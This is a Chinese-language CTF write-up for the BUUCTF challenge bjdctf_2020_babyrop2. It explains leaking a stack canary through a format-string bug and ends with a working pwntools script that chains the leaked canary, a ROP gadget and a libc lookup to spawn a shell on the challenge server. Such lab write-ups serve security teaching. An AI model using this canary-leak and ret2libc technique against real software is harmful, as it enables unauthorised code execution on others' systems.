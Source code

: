 ### Canary 泄露绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b42be6d0e0a243d40070c9.png)

先 checksec 一下发现开启了 Canary 及 NX

![](https://pic1.imgdb.cn/item/67b42c4fd0e0a243d40070e8.png)

反编译先看 main 函数

![](https://pic1.imgdb.cn/item/67b42c7dd0e0a243d40070fb.png)

首先调用了 init 函数打印了两句话

![](https://pic1.imgdb.cn/item/67b42cb7d0e0a243d4007113.png)

再是 gift 函数，这里明显存在字符串格式化漏洞

![](https://pic1.imgdb.cn/item/67b42d42d0e0a243d4007134.png)

最后是 vuln 函数

![](https://pic1.imgdb.cn/item/67b42d72d0e0a243d4007139.png)

buf 缓冲区存在溢出

![](https://pic1.imgdb.cn/item/67b42d7cd0e0a243d400713a.png)

尝试常规方法泄露但不行

![](https://pic1.imgdb.cn/item/67b42e33d0e0a243d400715d.png)

输入 %n$p（用法参考 2.1）

可以看到偏移是 6

![](https://pic1.imgdb.cn/item/67b42f2fd0e0a243d4007183.png)

使用 gdb 调试发现在字符串下面一行就是 Canary 的值

![](https://pic1.imgdb.cn/item/67b430a5d0e0a243d40071e6.png)

所以输入 %7$p 就能泄露 Canary 的值

![](https://pic1.imgdb.cn/item/67b43228d0e0a243d4007239.png)

![](https://pic1.imgdb.cn/item/67b43244d0e0a243d400723f.png)

64 位系统还需要一个 pop rdi;ret

![](https://pic1.imgdb.cn/item/67b4329fd0e0a243d400724a.png)

Canary 保护会从 rbp-4 或者 rbp-8 的位置取出并与 fs/gs 寄存器对应位置的值进行比较

如果不相等就会执行 __ stack_chk_fail 函数，这个函数强行停止程序运行并发出警告，从而阻止栈溢出攻击

所以在最后填上 Canary 的值来绕过

```python
from pwn import *
from LibcSearcher import *

r = remote('node3.buuoj.cn',26842)
elf = ELF('./bjdctf_2020_babyrop2')

payload = '%7$p'

r.sendline(payload)
r.recvuntil('0x')

cancry = int(r.recv(16),16)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x0400993
main_addr = elf.symbols['main']
vuln_addr = 0x0400887

# 'a' * (0x20 - 8) + p64(cancry)：绕过 cancry
# p64(0)：覆盖 ebp
payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln_addr)

r.recvuntil('story!\n')
r.sendline(payload)

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - libc.dump('puts')
system_addr = base_addr + libc.dump('system')
shell_addr = base_addr + libc.dump('str_bin_sh')

r.recvuntil('story!\n')

payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(shell_addr) + p64(system_addr) + p64(main_addr)

r.sendline(payload)
r.interactive()
```

